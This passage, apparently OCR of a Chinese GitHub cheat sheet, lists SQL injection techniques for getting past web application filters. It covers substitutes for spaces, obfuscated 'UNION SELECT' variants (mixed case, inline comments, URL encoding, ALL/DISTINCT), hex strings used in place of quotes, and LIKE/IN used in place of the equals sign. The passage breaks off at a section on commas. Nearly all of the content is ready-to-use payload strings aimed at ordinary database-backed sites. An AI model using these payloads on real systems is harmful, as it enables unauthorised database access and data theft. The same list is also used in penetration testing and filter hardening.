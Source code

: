 ##### 1.3、引号代替空格

mysql中可用单引号或双引号来代替空格。

```sql
select name from tb1 where name ='asd' and 1=1;
等价：
select name from tb1 where name ='asd'and'1'='1';
```

##### 1.4、特殊字符代替空格

如下特殊字符可代替空格：

```sql
%09    水平定位符号%0a    换行符%0c    换页符%0d    回车%0b    垂直定位符号
```

#### 2、union\select

```sql
uNIoN sel<>ect # 程序过滤<>为空 脚本处理
uNi//on sele//ct # 程序过滤//为空
uNIoN /!%53eLEct/ # url 编码与内联注释
uNIoN se%0blect # 使用空格绕过
uNIoN sele%ct # 使用百分号绕过
uNIoN %53eLEct # 编码绕过
uNIoN sELecT 1,2 #大小写绕过
uNIoN all select 1,2 # ALL绕过
uNIoN DISTINCT select 1,2 # 去重复DISTINCT 绕过
null+UNION+SELECT+1,2 # 加号代替空格绕过
/!union//!select/1,2 # 内联注释绕过
/!50000union//!50000select/1,2 # 内联注释绕过
uNIoN//select/**/1,2 # 注释代替空格绕过
```

#### 3、引号

可通过注释、括号、内联注释代替引号。

字符串可写作0x十六进制。

```sql
select * from tb1 where name='asd';
等价
select * from tb1 where name=0x617364;
```

#### 4、等号

```sql
?id=1' or 1 like 1#可以绕过对 = > 等过滤
or '1' IN ('1234')#可以替代=
```

#### 5、逗号

在使用mid，substr，substring函数的时候，如果逗号被过滤，可以通过from x for y代替。

